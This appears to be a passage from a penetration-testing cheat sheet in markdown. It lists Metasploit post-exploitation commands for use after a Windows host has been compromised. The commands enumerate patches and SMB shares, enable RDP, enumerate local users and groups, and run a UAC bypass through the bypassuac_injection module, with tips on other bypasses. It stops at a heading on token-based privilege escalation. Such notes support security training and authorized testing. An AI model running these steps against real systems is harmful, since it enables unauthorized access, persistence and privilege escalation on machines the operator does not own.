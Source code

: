 ```bash
msf6 post(windows/gather/enum_patches) > run
# check if the KB list of patches are installed or not
msf6 post(windows/gather/enum_shares) > set SESSION [SESSION_ID]
msf6 post(windows/gather/enum_shares) > run
# enumerate SMB shares
msf6 post(windows/manage/enable_rdp) > set SESSION [SESSION_ID]
msf6 post(windows/manage/enable_rdp) > set run
# enable RDP :)
```

<a id=7.2.1></a>
### UAC Bypass Through Injection

The UAC (User Account Control) is a security mechanism put in place by Microsoft to prevent unauthorized
changes that could be made to a computer. We've seen UAC before, so we'll get right to bypassing it!

```bash
# lets assume we're on a victim machine at this point :)
meterpreter > getprivs
# check the current user privs
meterpreter > shell
C:\> net users
# get a list of users
C:\> net localgroup [group]
# get a list of users inside [group]
C:\> ^C
meterpreter > bg
msf6 > use exploit/windows/local/bypassuac_injection
msf6 exploit(windows/local/bypassuac_injection) > set payload [PAYLOAD]
msf6 exploit(windows/local/bypassuac_injection) > set SESSION [SESSION_ID]
msf6 exploit(windows/local/bypassuac_injection) > set LPORT [PORT_OTHER_THAN_METERPRETER]
msf6 exploit(windows/local/bypassuac_injection) > show TARGETS
msf6 exploit(windows/local/bypassuac_injection) > set TARGET [TARGET]
msf6 exploit(windows/local/bypassuac_injection) > run
# this is a very comfy uac bypass. getsystem has a higher change of working, so
# try that out when you have that option :) also this technique is quite useful
# for windows versions that came out after vista, and its also a very reliable one.
# remember to check the UACME https://github.com/hfiref0x/UACME repo, its very good :)
# also: there are a lot of uac bypasses available to us on the msfconsole, check them using
# this command:
msf6 > search bypassuac type:exploit
```

<a id=7.2.2></a>
### Privilege Escalation Through Access Tokens with Incognito

Access tokens are a core element of the authentication process of Windows. They're created by the LSASS (Local Security
Authority Subsystem Service) service.
